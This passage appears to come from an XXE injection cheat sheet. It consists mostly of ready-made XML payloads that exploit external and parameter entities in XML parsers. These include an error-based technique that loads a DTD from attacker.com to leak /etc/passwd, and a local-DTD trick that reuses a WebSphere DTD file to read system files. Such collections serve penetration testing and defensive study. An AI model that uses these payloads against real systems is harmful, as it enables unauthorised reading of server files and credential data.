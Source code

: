 File stored on _http://publicServer.com/external_entity_attribute.dtd_  
  
```xml
<!ENTITY % payload SYSTEM "file:///sys/power/image_size">  
<!ENTITY % param1 "<!ENTITY internal '%payload;'>">  
%param1;
```
  
[Source](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)  

### Error-based XXE using Parameter Entitites (Arseniy Sharoglazov, 2018)

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```
  
File stored on _http://attacker.com/ext.dtd_  

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

[Source](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

### Abusing local-DTD Files XXE (Arseniy Sharoglazov, 2018)

Because external DTD subsets are prohibited within an internal subset, one can use a a locally existing DTD file as follows:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

    <!ENTITY % condition 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```
  